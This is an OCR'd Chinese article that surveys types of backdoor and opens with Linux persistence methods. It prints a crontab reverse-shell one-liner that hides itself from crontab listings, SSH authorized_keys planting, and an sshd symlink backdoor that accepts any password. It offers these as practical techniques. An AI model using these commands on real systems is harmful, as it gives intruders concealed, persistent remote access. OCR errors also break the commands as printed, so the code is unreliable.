 那些年，我们一起玩过的后门


前言

没有最好的后门，只有最合适的后门。

时光荏苒，岁月如梭，在这篇文章里，我将对后门的各种形式进行解读和总结，这不仅仅是能帮你找到回忆，更希望的是能给予大家帮助、启发思考。

后门种类繁多，林林总总，根据不同的需求出现了很多奇怪好玩的后门。它可以是一行简单的代码，也可以是复杂的远控木马，它可以是暴力的，也可以是很优雅的。

在整体架构上，一个优秀的后门应该充分考虑其功能、触发方式和通信方式等方面。针对不同的方面，杀软也会根据其特征进行处理。为了进一步的持续性控制以及后渗透，后门越显复杂化。从后门的发展史中可看出，这是一场攻与防的持续性较量。

从终端平台的角度看，后门可分为Linux型、Windows型和IOT型；

对于Linux而言，从后门的形式上看，可分为配置型、logger型和rookit型；

对于windows而言，从后门触发方式的角度看，可分为Registry型、Schtasks型和WMI型；

从通信方式的角度看，后门可分为http/https型、irc型、dns型、icmp型等等；

从网站应用的角度看，后门可分为模块扩展型、后端语言型和配置文件型。

……



终端类

一. Linux后门

1. 配置型

这里的配置型是指借助Linux系统本身的一些特性来完成后门布置功能。

1.1 crontab后门

运维经常会用到该命令，这相当于windows的计划任务，规定时间来执行指定命令。这通常与反弹shell一起运用。

(crontab -l;printf "*/5 * * * * exec9<> /dev/tcp/localhost/8080&&exec0<&9&&exec1>&92>&1&&/bin/bash --noprofile –I;rno crontab for `whoami`%100cn")|crontab -
1.2 ssh公钥免密

将客户端生成的ssh公钥写到所控服务器的~/.ssh/authorized_keys中，然后客户端利用私钥完成认证即可登录。

客户端：


$ ssh-keygen -t rsa
$ ls
id_rsa  id_rsa.pub
把id_rsa.pub写入服务端的authorized_keys中，并修改好相应权限。

服务端：


$ chmod 600 ~/.ssh/authorized_keys
$ chmod 700 ~/.ssh
这种后门的特点是简单易用，但在实战中会被服务器的配置环境所限制，以及容易被发现。

1.3 软连接后门

ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=5555;
经典后门。直接对sshd建立软连接，之后用任意密码登录即可。
